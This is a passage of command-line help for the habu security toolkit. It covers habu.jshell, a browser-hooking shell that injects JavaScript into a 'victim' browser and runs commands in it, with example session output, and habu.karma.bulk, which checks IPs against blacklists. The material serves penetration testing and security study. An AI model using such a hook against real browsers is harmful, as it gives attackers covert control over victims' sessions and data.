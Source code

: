 ``` {.sourceCode .bash}

  Reference: https://developer.mozilla.org/en-US/docs/Web/API/WebSockets_API

  Example:

  $ habu.jshell
  >> Listening on 192.168.0.10:3333. Waiting for a victim connection.
  >> HTTP Request received from 192.168.0.15. Sending hookjs
  >> Connection from 192.168.0.15
  $ _sessions
  0 * 192.168.0.15:33432 Mozilla/5.0 (X11; Linux x86_64; rv:57.0) Gecko/20100101 Firefox/57.0
  $ _info
  {
      "user-agent": "Mozilla/5.0 (X11; Linux x86_64; rv:57.0) Gecko/20100101 Firefox/57.0",
      "location": "http://192.168.0.10:3333/",
      "java-enabled": false,
      "platform": "Linux x86_64",
      "app-code-name": "Mozilla",
      "app-name": "Netscape",
      "app-version": "5.0 (X11)",
      "cookie-enabled": true,
      "language": "es-AR",
      "online": true
  }
  $ document.location
  http://192.168.0.10:3333/

Options:
  -v          Verbose
  -i TEXT     IP to listen on
  -p INTEGER  Port to listen on
  --help      Show this message and exit.
```


## habu.karma.bulk


``` {.sourceCode .bash}
Usage: habu.karma.bulk [OPTIONS] [INFILE]

  Show which IP addresses are inside blacklists using the Karma online
  service.

  Example:

  $ cat /var/log/auth.log | habu.extract.ipv4 | habu.karma.bulk
  172.217.162.4   spamhaus_drop,alienvault_spamming
  23.52.213.96    CLEAN
  190.210.43.70   alienvault_malicious

Options:
  --json  JSON output
  --bad   Show only entries in blacklists
  -v      Verbose output
  --help  Show this message and exit.
```

